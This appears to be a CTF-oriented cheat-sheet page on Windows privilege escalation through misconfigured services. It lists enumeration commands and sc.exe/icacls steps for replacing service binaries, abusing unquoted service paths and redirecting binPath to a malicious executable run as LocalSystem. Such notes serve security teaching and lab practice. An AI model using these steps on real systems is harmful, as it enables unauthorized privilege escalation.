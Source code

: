 # Windows services

[Go back](../index.md#windows-privilege-escalation-)

[![windowsprivesc20](../../../_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)
[![steelmountain](../../../_badges/thmp-p/steelmountain.svg)](https://tryhackme.com/room/steelmountain)

<div class="row row-cols-md-2"><div>

Windows services are managed by the Service Control Manager <small>(SCM)</small>.

* 🗺️ List services

```shell!
PS> Get-Service
PS> net start
PS> sc.exe query # with infos
```

* 🔎 Get more info about a service

```shell!
PS> sc.exe qc xxx
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: xxx
  [...]
  BINARY_PATH_NAME   : C:\[...]\service.exe
  [...]
```

🔥 In CTFs, you may be able to start/stop the service manually

```shell!
PS> sc.exe stop xxx
PS> # do your job
PS> sc.exe start xxx
```

➡️ See also: [Potatoes](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) 🥔 and [SweetPotato](https://github.com/CCob/SweetPotato) (1.2k ⭐).

</div><div>

#### Common flaws

➡️ **Insecure permissions**: the current user may be able to replace the service with a malicious executable (ex: revshell.exe)

```shell!
PS> icacls C:\[...]\service.exe
PS> move C:\[...]\service.exe C:\[...]\service.exe.old
PS> icacls C:\[...]\malicious.exe /grant Everyone:F
```

➡️ **Unquoted Service Paths**: if the service is using a PATH in which there are spaces, the service isn't quoted, and the hacker can create files, then the hacker may create an executable that is executed with the rest of the path in argument.

```shell!
PS> icacls $Env:appdata\Vulnerable Program\service.exe
PS> move C:\[...]\malicious.exe $Env:appdata\Vulnerable.exe
PS> # the service will execute
PS> # $Env:appdata\Vulnerable.exe Program\service.exe
```

➡️ **Insecure Service Permissions**: it occurs if we can edit the permissions of a service, such as being able to change the location of the binary. Use the [accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) command. If the user is granted `SERVICE_ALL_ACCESS` on the service, then have fun.

```shell!
PS> # LocalSystem is the highest privileged account available
PS> sc.exe config xxx binPath=C:\[...]\malicious.exe  obj= LocalSystem
```
</div></div>